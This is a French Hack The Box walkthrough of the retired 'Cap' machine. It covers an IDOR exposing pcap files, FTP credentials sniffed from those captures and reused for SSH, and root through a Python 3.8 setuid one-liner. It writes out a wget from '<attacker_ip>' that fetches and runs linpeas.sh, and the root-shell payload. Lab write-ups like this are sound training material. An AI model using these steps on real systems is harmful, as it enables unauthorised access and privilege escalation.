 # Cap (HTB - Retired - Easy)
**Date :** 07/05/2025  
**Catégorie :** IDOR, FTP credentials, SUID Python PrivEsc  
**Difficulté :** Easy  
**Objectif :** Obtenir les flags `user.txt` et `root.txt`

---

## Nmap

```bash
nmap -Pn -sV nmap.txt 10.10.11.XXX
```markdown
![Nmap results](../HTB/retired/cap/nmap_cap.png)
Résultat :
21/tcp - FTP

22/tcp - SSH

80/tcp - HTTP

## Enum Web
Sur le port 80, on accède à un site affichant un dashboard, avec plusieurs onglets, dont un nommé Security Snapshot.
L’URL lors de la consultation d’un rapport ressemble à :
http://10.10.11.XXX/data/0

## IDOR (Insecure Direct Object Reference)
Changement de la valeur dans l’URL (/data/1, /data/2, etc.) permet de télécharger différents fichiers .pcap.
On télécharge ceux qui semblent intéressants et on les ouvre avec Wireshark.
## Analyse de fichier PCAP
Dans le fichier correspondant à /data/0, on observe des transferts FTP en clair, et on identifie :
Nom d’utilisateur FTP


Mot de passe FTP


(Le tout visible dans les paquets FTP Request et FTP Response.)

```markdown
![Wireshark](../HTB/retired/cap/cap_wireshark.png)

##Accès FTP & SSH
Connexion au serveur FTP :
ftp 10.10.11.XXX

Les identifiants FTP fonctionnent également pour se connecter en SSH :
ssh user@10.10.11.XXX
Flag user.txt trouvé dans le répertoire home.
```markdown
![FTP](../HTB/retired/cap/co_ftp.png)

```markdown
![Userflag and linpeas import](../HTB/retired/cap/cap_user_linpeas.png)

##Escalade de privilèges
Upload de linpeas.sh pour l’analyse locale :
###Sur la machine attaquante
python3 -m http.server 8000

###Sur la cible
wget http://<attacker_ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

##SUID Python trouvé :
-rwsr-xr-x 1 root root 3700736 Jul  7  2021 /usr/bin/python3.8

##Exploitation SUID Python
Lancement de Python avec élévation des privilèges :
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

On obtient un shell root, puis :
cat /root/root.txt

## 🛠️ Résumé des étapes

| Étape                | Technique                          |
|----------------------|------------------------------------|
| Initial Access       | IDOR via `/data/<id>`              |
| Credential Access    | Analyse de `.pcap` → FTP creds     |
| Lateral Movement     | Reuse FTP creds → SSH              |
| Privilege Escalation | SUID Python 3.8 → root shell       |
